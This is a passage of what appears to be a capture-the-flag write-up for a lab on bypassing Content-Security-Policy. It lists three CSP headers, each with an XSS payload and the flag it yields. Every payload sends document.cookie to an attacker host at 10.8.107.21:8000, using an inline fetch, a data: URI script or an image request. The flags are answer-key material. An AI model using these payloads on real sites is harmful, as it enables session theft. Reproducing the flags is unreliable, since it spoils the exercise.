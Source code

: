 We can find the CSP `Content-Security-Policy: default-src * 'unsafe-inline';`

## Payload

```
<script>fetch(`http://10.8.107.21:8000/${document.cookie}`)</script>
```

## Flag

```
THM{Th4t_W4s_Pr3tty_3asy}
```

# Task 2

`Content-Security-Policy: default-src *; style-src 'self'; script-src data:`

## Payload

```
<script src="data:application/javascript,fetch(`http://10.8.107.21:8000/${document.cookie}`)"></script>
```

## Flag

```
THM{Us1ng_data:_1snt_Any_S4fer}
```

# Task 3

`Content-Security-Policy: Default-src 'none'; img-src *; style-src 'self'; script-src 'unsafe-inline'`

## Payload

```
"/><script>new Image().src="http://10.8.107.21:8000/" + document.cookie;</script>
```

## Flag

```
THM{Th4ts_N0t_4n_1m4ge!!}
```

# Task 4

